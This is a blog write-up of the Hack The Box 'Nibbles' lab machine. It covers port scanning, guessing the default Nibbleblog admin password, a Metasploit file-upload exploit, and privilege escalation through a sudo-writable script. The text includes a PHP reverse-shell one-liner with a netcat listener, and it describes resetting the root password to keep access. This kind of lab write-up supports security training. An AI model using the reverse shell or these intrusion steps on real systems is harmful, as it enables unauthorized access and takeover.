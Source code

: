 ```yaml
---
layout: post
title: "Nibbles write-up"
date: 2018-06-27
excerpt: "Simple rooting thanks to default passwords and file privilege misconfigurations."
tags: [Hack The Box, Pentesting, Default Password, Nibbleblog, File privileges]
comments: true
---
```


# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*

![Img](/assets/posts_details/Nibbles/images/initial.png "Img")

*Intercepted response*

![Img](/assets/posts_details/Nibbles/images/burp.png "Img")

*Blog on /nibbleblog directory*

![Img](/assets/posts_details/Nibbles/images/nb.png "Img")

That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*

![Img](/assets/posts_details/Nibbles/images/login.png "Img")

As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*

![Img](/assets/posts_details/Nibbles/images/msp.png "Img")

However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*

![Img](/assets/posts_details/Nibbles/images/php.png "Img")

#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*

![Img](/assets/posts_details/Nibbles/images/sudol.png "Img")

We can just write to the file and then run it:

*Getting the root hash*

![Img](/assets/posts_details/Nibbles/images/root.png "Img")

In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*

![Img](/assets/posts_details/Nibbles/images/pers1.png "Img")
---
![Img](/assets/posts_details/Nibbles/images/pers2.png "Img")

*Diego Bernal Adelantado*
